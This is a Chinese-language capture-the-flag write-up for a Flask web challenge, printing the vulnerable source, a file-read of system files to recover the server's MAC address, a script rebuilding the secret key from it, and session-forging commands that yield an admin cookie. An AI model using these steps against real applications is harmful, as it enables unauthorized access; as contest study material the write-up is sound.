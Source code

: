 第三次月赛

打数模去了

只写了一道题目

## ezInclude

![image-20231126221420944](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231126221420944.png)

首先是看不到flag的

但是看到URL里面可以通过read访问

后来看到hint

![image-20231126221528016](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231126221528016.png)

![image-20231202142112883](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231202142112883.png)

找到网页源代码：

```

# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*42)
app.debug = True
@app.route('/')
def index():
    try:
        session['username'] = 'guest'
        return 'flag大促销！ <br> <a href="/read?url=http://monian.one/pic.html">点击就送不要钱！</a>'
    except Exception as e:
        print str(e) 
    return '?'
@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'GET OUT BABY HACKER!'
        web = urllib.urlopen(url)
        return web.read()
    except Exception as e:
        print str(e) 
    return '?'

@app.route('/flag')
def flag():
    if session and session['username'] == 'admin':
        return open('/flag').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0",
        port="8080"
    )


```

发现有一个flag路径，但是直接访问会被deny

所以改session

着重看：

```
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*42)
```

在网上找到一篇

[flask session机制_偶尔躲躲乌云334的博客-CSDN博客](https://blog.csdn.net/qq_62046696/article/details/128533441)

```
种子是通过random.seed(uuid.getnode())生成的。而uuid.getnode()又是将MAC地址转换为10进制。那么我们通过程序中的任意文件读取来获取网卡地址。不就能得到种子了
读取/proc/net/dev可以知道服务器上的网卡。接着/sys/class/net/eth0/address可以知道MAC地址 
```

![image-20231126222403816](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231126222403816.png)

![image-20231126222431067](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231126222431067.png)

```
import random
import sys
mac = "02:42:ac:11:00:03"
print(int(mac.replace(":", ""), 16))#转换为10进制
random.seed(2485377892355)
SECRET_KEY = str(random.random())
#根据程序中修改
print(SECRET_KEY)
```

最后得到mac地址转化来的随机种子

用session脚本跑一下。。。

本来是这样的，没有做出来

因为python版本的原因

![image-20231126222112107](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231126222112107.png)

大意了。。

![image-20231126222146139](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231126222146139.png)

![image-20231128124902045](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231128124902045.png)



新增：

传session的问题重新思考了一下，其实在最初解密的时候是出了问题的，但是后来解决了，具体：

在对原session解码的时候出的是base64字符串

如：

```
PS C:\Users\92579\Desktop\Tools\代码审计\session> python .\flask1.py decode -c "eyJ1c2VybmFtZSI6eyIgYiI6IllXUnRhVzQ9In19.ZWLsBA.2qtjD_roJa7q2iJsusakWMQKMlY"
b'{"username":{" b":"YWRtaW4="}}'
```

反过来加密的时候又出现编译不对的状况

类似这样：

```
PS C:\Users\92579\Desktop\Tools\代码审计\session> python .\flask1.py decode -c "eyJ1c2VybmFtZSI6eyIgZGkiOnsiIGJfXyI6IllXUnRhVzQ9In19fQ.ZWLlog.HfNaENtoennpofr9yBpubaLWBug"
b'{"username":{" di":{" b__":"YWRtaW4="}}}'
```

但试了几次之后发现：应该是这样的

```
PS C:\Users\92579\Desktop\Tools\代码审计\session> python .\flask1.py encode -s "22.1030973446" -t "{'username': b'admin'}"
eyJ1c2VybmFtZSI6eyIgYiI6IllXUnRhVzQ9In19.ZWVwvw.dXGgzocctcdaP_WJv0p1ZYLvXR8
```

